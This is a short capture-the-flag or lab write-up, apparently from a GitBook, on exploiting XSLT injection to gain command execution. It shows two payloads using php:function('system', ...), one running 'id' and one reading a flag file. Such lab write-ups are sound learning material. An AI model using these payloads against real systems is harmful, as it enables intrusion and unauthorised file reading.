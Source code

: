 # Exploiting XSLT Injection

Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

To explore this XSLT vulnerability lets try a simple payload first in order to see if the command gets executed:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```xml
<xsl:value-of select="php:function('system','id')" />
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!

After looking arround with the `ls` command, we finnaly managed to get the flag with following payload:

```xml
<xsl:value-of select="php:function('system','cat ../../../../flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>
